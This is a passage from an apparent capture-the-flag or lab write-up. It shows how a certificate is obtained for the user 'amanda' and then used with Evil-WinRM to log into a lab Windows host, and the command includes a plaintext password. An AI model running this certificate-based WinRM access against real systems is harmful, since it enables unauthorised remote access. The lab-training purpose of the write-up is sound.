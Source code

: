 Paste in the content of amanda.csr and click Submit

- <u>Step 4 - Download certificate (either one will work):</u>

![image24](../resources/af3e6b6ec4c44e1d8efbdd6d62ad63d6.png)

If you download a DER encoded certificate you can read it with:

```bash
openssl x509 -inform der -in certnew.cer -noout -text

```
**<u>To use the certificate to connect over WinRM - We have two choices:</u>**

[https://medium.com/r3d-buck3t/certificate-based-authentication-over-winrm-13197265c790#0558](https://medium.com/r3d-buck3t/certificate-based-authentication-over-winrm-13197265c790#0558)


- **<u>Option 1 (Evil-WinRM):</u>**

We can see that with Evil-WinRM we can supply a Public and Private key


![image25](../resources/4b41a747ea1e414387df0deda405384d.png)

```bash
evil-winrm -S -i 10.129.7.164 -u amanda -p Ashare1972 -c certnew.cer -k amanda.key

```

![image26](../resources/8be3fd436e07412da0b2d5d391d5c0fe.png)

